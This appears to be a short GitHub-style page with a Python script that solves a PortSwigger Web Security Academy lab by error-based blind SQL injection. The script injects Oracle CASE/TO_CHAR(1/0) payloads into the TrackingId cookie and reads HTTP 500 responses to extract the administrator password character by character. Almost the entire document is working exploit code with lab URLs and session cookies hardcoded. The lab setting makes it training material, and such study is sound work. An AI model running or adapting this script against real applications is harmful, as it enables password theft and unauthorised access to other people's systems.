 # Blind-SQL-injection-for-conditional-error
This code for password brute forcing in bsql
import requests

url = 'https://0a4500b703bde48e80490868002500d9.web-security-academy.net/filter?category=Lifestyle'
chararacter = 'abcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()'



def get_length():
    for i in range(1, 101):
        cookies = {
            'TrackingId': '0D16aG4nnURWADar',
            'session': 'qgludDiAZbhGH9TTNepAUvcdjCtJD25r'
        }

        payload = f"'|| (SELECT CASE WHEN (LENGTH((SELECT password FROM users WHERE username='administrator')) = {i})THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'"

        cookies['TrackingId'] += payload

        response = requests.get(url, cookies=cookies)

        if response.status_code == 500:
            return i
        
        
def get_data(length):
    temp = ''
    for i in range(1,length+1):
        for char in (chararacter): 
            cookies = {
            'TrackingId': '0D16aG4nnURWADar',
            'session': 'qgludDiAZbhGH9TTNepAUvcdjCtJD25r'
            }       
            payload = f"'|| (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),{i},1) = '{char}' )THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'"
            cookies['TrackingId'] += payload
            response = requests.get(url, cookies=cookies)
            # if here post request then use request.post

            if response.status_code == 500:
                print(temp)
                temp += char
                break
    return temp
        

length = get_length()
print(f"Password length is: {length}")
print("Dumping data... please be patient.")
data = get_data(length)
print(f"password is {data}")
